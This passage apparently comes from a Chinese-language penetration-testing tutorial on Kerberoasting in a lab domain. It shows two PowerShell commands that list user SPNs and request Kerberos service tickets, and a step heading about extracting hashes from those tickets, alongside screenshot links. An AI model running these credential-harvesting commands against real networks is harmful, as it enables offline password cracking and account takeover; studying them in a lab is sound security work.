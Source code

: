 ```plain
List-UserSPNs -Domain "hacke.testlab"
```

[![](assets/1699492330-87d1d65a9ac8a14838c87ee80a3f67f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163202-4aab45fe-7e11-1.png)  
d、获取与林中唯一用户SPN相关联的所有票证

```plain
Invoke-AutoKerberoast
```

[![](assets/1699492330-017516bf49447ea6095ec6cbc85731d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163227-596c5704-7e11-1.png)  
e、从Ticket中提取hash
